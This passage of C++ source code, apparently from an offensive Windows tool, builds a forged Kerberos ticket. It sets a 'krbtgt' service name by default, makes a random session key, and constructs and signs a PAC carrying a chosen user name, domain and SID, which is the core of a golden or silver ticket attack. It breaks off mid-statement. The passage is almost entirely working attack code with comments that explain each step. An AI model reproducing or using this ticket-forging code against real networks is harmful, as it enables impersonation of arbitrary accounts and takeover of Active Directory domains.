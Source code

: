 ```c++
    // The sname of the temporary storage ticket.
	if (ticket.ServiceName = (PKERB_EXTERNAL_NAME)LocalAlloc(LPTR, sizeof(KERB_EXTERNAL_NAME)))
	{
		ticket.ServiceName->NameCount = 2;
		ticket.ServiceName->NameType = KRB_NT_SRV_INST;
		RtlInitUnicodeString(&ticket.ServiceName->Names[0], lpServiceName ? lpServiceName : L"krbtgt");
		RtlInitUnicodeString(&ticket.ServiceName->Names[1], lpTargetName ? lpTargetName : lpDomainName);
	}

	RtlInitUnicodeString((PUNICODE_STRING) & ticket.DomainName, lpDomainName);
    // The crealm，realm of the temporary storage ticket.
	ticket.TargetDomainName = ticket.AltTargetDomainName = ticket.DomainName;
    // The flags of the temporary storage ticket.
	ticket.TicketFlags = (lpServiceName ? 0 : KERB_TICKET_FLAGS_initial) | KERB_TICKET_FLAGS_pre_authent | KERB_TICKET_FLAGS_renewable | KERB_TICKET_FLAGS_forwardable;
    // The tkt-vno of the temporary storage ticket.
	ticket.TicketKvno = 5;
    // The key (session key) of the temporary storage ticket.
	ticket.TicketEncType = ticket.KeyType = dwKeyType;
	ticket.Key.Length = dwKeySize;
	if (ticket.Key.Value = (PUCHAR)LocalAlloc(LPTR, ticket.Key.Length))
        // Generate a random session key.
		CDGenerateRandomBits(ticket.Key.Value, ticket.Key.Length);

    // Select an appropriate signature type according to dwKeyType for 
    // subsequent signing of the pac structure.
	switch (dwKeyType)
	{
	case KERB_ETYPE_AES128_CTS_HMAC_SHA1_96:
		SignatureType = KERB_CHECKSUM_HMAC_SHA1_96_AES128;
		break;
	case KERB_ETYPE_AES256_CTS_HMAC_SHA1_96:
		SignatureType = KERB_CHECKSUM_HMAC_SHA1_96_AES256;
		break;
	case KERB_ETYPE_DES_CBC_MD5:
		SignatureType = KERB_CHECKSUM_DES_MAC;
		break;
	case KERB_ETYPE_RC4_HMAC_NT:
	default:
		SignatureType = KERB_CHECKSUM_HMAC_MD5;
	}

	// Enter the GenerateValidationInfo function to generate a KERB_VALIDATION_INFO 
    // type buffer for PAC.
	if (pValidationInfo = GenerateValidationInfo(&pLifeTimeData->TicketStart, lpUserName, lpDomainName, lpLogonDomainName, pSid))
	{
        // Build the PAC structure through the generated KERB_VALIDATION_INFO buffer.
		if (ValidationInfoToPAC(pValidationInfo, SignatureType, &pacType, &pacTypeSize))
		{
			wprintf(L"    * PAC generated.\n");
            // Sign the constructed PAC structure
			if (GeneratePacSignatureData(pacType, pacTypeSize, SignatureType, Key, dwKeySize))
			{
				wprintf(L"    * PAC signed.\n");
			}
		}		
	}

	// Generate the EncTicketPart part of the ticket.
	if (BerAppEncTicketPart = GenerateAppEncTicketPart(&ticket, pacType, pacTypeSize))
```